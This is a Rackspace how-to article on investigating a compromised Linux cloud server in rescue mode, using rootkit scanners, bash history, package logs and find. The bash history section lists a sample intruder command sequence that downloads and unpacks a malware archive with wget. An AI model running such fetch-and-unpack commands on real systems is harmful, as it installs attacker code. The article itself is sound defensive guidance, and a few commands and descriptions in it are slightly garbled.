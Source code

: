 ```yaml
---
permalink: check-for-a-security-compromise-rescue-mode-investigation/
audit_date:
title: 'Check for a security compromise: Rescue mode investigation'
type: article
created_date: '2013-04-26'
created_by: Rose Contreras
last_modified_date: '2018-06-26'
last_modified_by: Catherine Richardson
product: Cloud Servers
product_url: cloud-servers
---
```


In the article, [Checking for a security compromise: Back doors and intruders](/how-to/how-to/check-for-a-security-compromise-back-doors-and-intruders),
you learned some basic techniques for collecting the information needed to intruders who have compromised your server. This article describes how to use the [Cloud Control Panel's](https://mycloud.rackspace.com/) *Rescue Mode* to take a closer look at your system. You can use rescue mode to better understand how your server was compromised and to identify non-compromised files before backing up the data.

### Activate rescue mode

Because your cloud server's operating system might also be compromised, you cannot rely on it. The intruder could have compromised binaries such as 'ls,' 'find,' and 'netstat,' so their output could mislead you.
Consequently, you must use a different operating system environment to
safely investigate the compromise. You can do this by using the rescue mode feature provided in the [Cloud Control Panel](https://mycloud.rackspace.com/). For instructions and more information, see [Rackspace Cloud Essentials - Rescue Mode on Linux Cloud Servers](/how-to/rackspace-cloud-essentials-rescue-mode-on-linux-cloud-servers).

While your server is in rescue mode, you can perform the following actions to locate the source of the compromise.

### Scan for rootkits

We recommend that you install and use the following tools to scan your system for rootkits.

#### Scan for rootkits with chkrootkit

`chkrootkit` looks for known signatures in compromised binary systems. For example, some compromised versions of `ps` have "`/dev/ptyp`" inside them. We recommend installing `chkrootkit` by using your package manager rather than compiling from source.

1. Run the following command:

        apt-get install chkrootkit

2. Run `chkrootkit` against the mounted file system of the cloud server:

        chkrootkit -r /mnt/demo

The following messages are printed by `chkrootkit` during its tests:

-  `INFECTED` - the test has identified a command probably modified by a known rootkit
-  `not infected` - the test didn't find any known rootkit signature
-  `not tested` - the test was not performed

   This could happen in the following situations:
    - The test is OS specific
    - The test depends on an external program that is not available
    - Some specific command line options are given (for example, `-r`)

-  `not found` - the command to be tested is not found
-  `Vulnerable but disabled` - the command is infected

For more options and information on using `chkrootkit`, see <http://www.chkrootkit.org/README>.

#### Scan for rootkits with rkhunter

Rootkit Hunter (`rkhunter`) checks systems against a database of known rootkits. It can also check other system files to make sure they are in line with expected properties and values.

1. Log in to your terminal application and change to your `sources` directory:

        cd ~/sources

2. Download the latest version of `rkhunter` from the [SourceForge download area](http://sourceforge.net/projects/rkhunter/files/):

        http://sourceforge.net/projects/rkhunter/files/

3. After you install `rkhunter`, run it against `/mnt/demo`.

        rkhunter -c -r /mnt/demo

`rkhunter` produces warnings during the tests that indicate where a file has deviated from expected defaults. Following the test, you can check the log to see more detailed information about which files produced the warning.
For more options and information on using `rkhunter`, see <http://rkhunter.cvs.sourceforge.net/viewvc/rkhunter/rkhunter/files/README>.

### Check last commands

To get an idea of how the cloud server security was breached, check which users ran commands before the cloud server was compromised.

The **.bashhistory** file contains the last commands used with the Bash shell. You need to check the **.bashhistory** files in each user's home directory. The most important **.bashhistory** file is the one belonging to root: **/root/.bashhistory**.

A compromised cloud server might have entries like the following ones:

    wget http://malware.tar.gz
    gunzip malware.tar.gz
    tar xf malware.tar

### Check installed packages

All changes to the packaging system are stored in **/var/log/dpkg.log** on Debian-based distributions. Check this file for any suspicious activity like installed or removed packages, or a modified bus.

Run the following command to show the last 50 lines of the **dpkg.log** file:

    tail 50 /mnt/demo/var/log/dpkg.log

### Use the find command

The `find` command is usually used to find filenames with specific patterns. However, you can also use it to find the files that were modified or accessed within a specific time period.

For example, you can find all files in **/etc** owned by root that have been
modified within the last two days, as follows:

    find /mnt/demo/etc -user root -mtime -2

Available options are as follows:

    -atime: when the file was last accessed
    -ctime: when the file's permissions were last changed
    -mtime: when the file's data was last modified

Note the  minus sign in front of '2' in the preceding example. The 'time' options for the `find` command are expressed in 24-hour increments, and the symbol used in front of the number can indicate *less than* or *greater than*. Thus '-2' means that you want to find files that were modified within the last two days. If you want to find files that were modified more than 2 days ago, use `+2`:

    find /mnt/demo/etc -user root -mtime +2

There are also versions of the `atime`, `ctime`, and `mtime` arguments that
measure time in minutes:

    -amin: when (in minutes) the file was last accessed
    -cmin: when (in minutes) the file's permissions were last changed
    -mmin: when (in minutes) the file's data was last modified

#### Example

Find all of the files in your cloud server owned by the `demo` user
that have been accessed within the last five minutes:

    find /mnt/demo -user demo -amin -5

The following list of `find` command options might be useful while investigating the
compromised cloud server investigation:

    -nouser: shows output not associated with an existing userid
    -nogroup: shows output not associated with an existing groupid
    -links n: file has n links
    -newer file: file was modified more recently than file
    -perm mode: file has mode permissions

### Check logs and suspicious files

You can find an intruder by checking for suspicious files in **/tmp**, **/var/tmp**, **/dev/shm**, **/var/spool/samba**, **/var/spool/squid**, and **/var/spool/cron**.

You can also look at log files in the **/var/log** directory. For example, **auth.log** records user login information, including IP addresses.

### Summary

In [Checking for a security compromise: Backdoors and Intruders](/how-to/checking-for-a-security-compromise-backdoors-and-intruders), you learned some techniques to use to discover back doors and track intruders on your cloud server. This will help you to avoid the situation or
mistake that led to the compromise, minimizing the chance of future compromises. In this article, you learned how to investigate your cloud server in rescue mode.

Whether it is caused by viruses, file corruption, machine failure, or
other unforeseen mishaps, the possibility of data loss is real. To avoid the disruption such a loss can cause, back up your files regularly. Following are some options to help you secure your files:

-   [Rackspace Cloud Backup](http://www.rackspace.com/cloud/backup/) is a good choice for Cloud Servers customers. It is fully integrated with Cloud Servers, and is a file-based backup alternative to whole image server backup.
-   For those who prefer to do it themselves, see [Back up your files with rsync](/how-to/backing-up-your-files-with-rsync).
